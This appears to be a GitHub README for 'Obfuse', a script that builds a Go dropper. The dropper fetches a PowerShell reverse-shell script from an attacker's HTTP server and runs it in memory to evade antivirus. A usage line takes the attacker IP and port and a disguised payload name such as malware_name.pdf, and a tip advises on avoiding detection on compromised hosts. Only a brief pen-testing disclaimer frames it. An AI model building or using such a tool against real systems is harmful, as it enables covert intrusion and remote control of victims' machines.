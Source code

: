 ## What is Obfuse?
Obfuse is just a simple bash script that combines different methods into one executable, compiled with golang. It uses **Invoke-PowerShellTcp.ps1** from [Nishang](https://github.com/samratashok/nishang) for reverse connection which will be served with python http module, then it uses a compiled go binary which will download the script and execute it in memory. The purpose of Obfuse is to bypass AV.

## Requirements
- Metasploit Framework (msfconsole)
	- Available on the official repo **https://github.com/rapid7/metasploit-framework**
- Golang (GO)
	- You can install it by executing **apt-get install golang**
- Python (http server)
	- You can install it by executing **apt-get install python2 or python3**
- Wine
	- You can install it by executing **apt-get install wine or wine32**

## Usage
> $ ./obfuse.sh attacker_ip attacker_port malware_name.pdf

## Tips
Use the powershell method to download files if you already have access on the target machine because certutil might already be blocked and it might trigger an alert.

## Feedback and issues?
If you have any feedback, anything that you want to see implemented or if you're running into issues using Obfuse, please feel free to file an issue on [https://github.com/spenkk/obfuse/issues](https://github.com/spenkk/obfuse/issues)

## Disclaimer
I've created this tool for various penetration testing purposes and I'm not responsible for any misuse or damage caused by it.

## DEMO
![](demo.gif)

